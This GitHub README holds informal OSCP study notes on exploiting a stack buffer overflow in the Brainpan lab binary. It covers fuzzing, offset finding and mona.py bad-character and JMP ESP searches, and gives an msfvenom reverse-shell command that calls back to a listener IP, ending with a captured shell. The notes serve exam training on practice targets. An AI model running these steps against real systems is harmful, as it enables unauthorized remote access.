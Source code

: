 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1) So for the Any binary we have to fuzz from 100 to Untill crash the program,
   To do so first we have to find out which input parameter of the is vulnrable to overflow.
   Then find out the crash byte of the program by fuzzing the parameter.
 
   

2) creating offset value. with msf 
   > /usr/bin/msf-pattern_create -l 3000
   where 3000 is Crash byte of the program when send Note Down the eip (Make sure to verify once again by restarting the immunity and this time send 'A'*crashbyte and 'B'*4 after the crashing   again you'll be able to see the 42424242 in EIP  )
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3) /usr/bin/msf-pattern_offset -l 3000 -q 35724134 (this is value of eip)

    output- [*] Exact match at offset 524 


4) after getting the offset value wee need to perform the overflow with some 
   more thing 
   now we have offset=524
   eip="B" * 4 (this will always contain the eip address after crashing the program as 42424242 whic is hex of B )
   shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5) Creating the working dir in im-debug
    
    !mona config -set workingfolder c:\logs\%p

 Now next is to finding the bad char with the help of all possible hex

6) to do this we have to create an array with mona.py to compair with out paylod

   !mona bytearray -b '\x00'

   send the payload 

7) now we have to verify if ther's any badchar....
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
   if the result is normal then ther's only one badchar  ecept: "/x00"

Now we have to find the jump esp location 

8) check if there is any module that is vulnrable and false by os
   !mona modules 
   ther's a module brainpain.exe

9) to get the jump statment have to perform this command

   !mona find -s "\xff\xe4" -m baianpan.exe
   this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'


10) setting the break point to check does it working or not 
    bp 0x311712f3
    to verify the break point is set view>view breakpoint>

11) Now set the  eip to  and try run again the payload 
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12) Creating the reverse shell code with the help of the msfvenome
     msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

where(-b is bad character and -f c is the revershell in c language

13) And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)

nops='\x90' * 10

14) add the nops to our payload before the shellcode value and start the listening on our side....

15) after the sending the shell the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


